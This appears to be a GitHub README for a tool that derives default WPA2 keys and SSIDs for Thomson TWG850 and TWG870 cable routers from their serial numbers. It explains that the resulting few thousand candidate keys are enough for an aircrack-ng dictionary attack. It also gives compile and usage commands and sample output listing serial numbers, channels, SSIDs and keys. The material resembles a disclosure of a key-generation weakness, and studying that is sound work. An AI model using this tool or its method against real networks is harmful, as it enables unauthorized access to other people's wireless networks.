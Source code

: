# TWG850/TWG870 WPA2 keys

Same as in the [Technicolor TC7200.U](https://haxx.in/upc-wifi/), the Wi-Fi SSID and
password are derived from the device's serial number.
However, for the TWG850-4U, there are around 8000-12000
possible WPA2 keys for each UPC%06d SSID and around 4000
for the TWG870's UPC%07d SSID, as opposed
to ~20 keys in the TC7200.U - still good enough for
a dictionary attack though: `aircrack-ng` takes less
than 5 seconds.


On both devices, the default WiFi channel number is also derived 
from the serial number (1 or 6 for the TWG850-4U, and 1, 6 or 11
on the TWG870). The channel number printed on the label of
TWG850-4U units is **not** used!

`$ cc upc-twg8x0.c -o upc-twg8x0`

Print WPA2 key and SSID for a TWG850 with serial number
`00939-907201352`.

```
$ ./upc-twg8x0 twg850 00939907201352
00939-907201352  6   UPC009038  AALOMMAA
```
Get serial numbers and WPA2 keys for SSID `UPC009065`

<pre>
$ ./upc-twg8x0 twg850 UPC009065
[...]
00939-907002034  1   UPC009065  IQVCGOKQ  
00939-907101693  6   UPC009065  IUQQQCBY  
<b>00939-907201352  6   UPC009065  AALOMMAA</b>
00939-907301011  1   UPC009065  QGGQKWBE  
00939-907400670  6   UPC009065  EIMDZWKS
[...]
</pre>

Same as above, but limit search to channel 6

<pre>
$ ./upc-twg8x0 twg850 UPC009065 6
[...]
00939-906500332  6   UPC009065  BDMWZWKE  
00939-907101693  6   UPC009065  IUQQQCBY  
<b>00939-907201352  6   UPC009065  AALOMMAA</b>
00939-907400670  6   UPC009065  EIMDZWKS  
00939-907500329  6   UPC009065  CSAAAAYZ
[...]
</pre>


